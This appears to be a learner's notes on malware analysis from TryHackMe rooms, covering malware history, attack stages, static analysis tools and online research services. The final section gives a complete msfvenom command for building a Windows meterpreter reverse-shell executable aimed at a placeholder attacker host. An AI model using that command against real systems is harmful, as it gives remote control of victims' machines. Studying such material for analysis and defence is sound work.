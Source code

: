 1. ###### History ([room](https://tryhackme.com/room/historyofmalware))
- malware = malicious software
- 1971 - first malware - Creeper
- 1973 - first "antivirus" - Reaper (was created to remove any copy of Creeper)
- 1974 - Wabbit - reproducing as fast as rabbits => computer would choke on their own resources; did not spread through network
- 1975 - ANIMAL - first Trojan
- 1982 - Elf Cloner - first microcomputer virus, boot sector virus, spread to US Navy
- 1986 - Computer Fraud and Abuse act

2. ###### Intro ([room](https://tryhackme.com/room/malmalintroductory))
- when analysing it's important to consider: 
	- Point of Entry
	- indicators of malware being executed on a machine
	- what does the malware do
- attacks - targeted vs. mass campain
- malware attack process breakdown:
	1. Delivery
		- USB, PDF attachment,...
	2. Execution
		- what does it do - encypting files, logs keystrokes, displays ads,...
	3. Maintaining persistence (not always the case)
	4. Propagation (not always)
- two categories of fingerprints:
	- host-based signatures - results of execution and any ppersistence performed by malware
	- network-based signatures - network communication taking place during delivery, delivery and propagation
- two types of malware analysis:
	- static 
		- gaining high level abstraction of the sample
		- PE Explorer, PeID, IDA, WinDg
	- dynamic - usualy involves executing the sample

3. ###### Static Analysis
- MD5 checksum
	- on Windows: [HashTab](http://implbits.com/products/hashtab/)
	- in Linux: md5checksum or md5deep
	- lookup the MD5 checksum - Virustotal,...
- identify the compiler/packer of a file
	- PeID (W), [Detect it Easy](https://github.com/horsicq/Detect-It-Easy) (L)
	- packing is a form of obfuscation
	- in IDA - check Imports - obfuscated code has little to no Imports
- strings ([room](https://tryhackme.com/room/malstrings))
	- text/numbers contents of a program
	- can contains credentials, Bitcoin addreses
	- SysInternalsSuite => Strings (W), strings (L)
- imports
	- PE Explorer (W GUI), IDA
- automated analysis with [[binwalk]]
- more condensed summary with [[exiftool]]

4. ###### Research ([room](https://tryhackme.com/room/malresearching))
- checksums + VirusTotal
- online sandboxes - [any.run](https://any.run/), [hybrid-analysis](https://hybrid-analysis.com/)



###### Create Malicious Executable
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<host_IP> LPORT=<destination_port> -f exe -o maliciousfile.exe`
	- `-a`: architecture
	- `--platform`: windons/linux
	- `-p`: payload
	- `-f`: file extension
	- `-o`: output file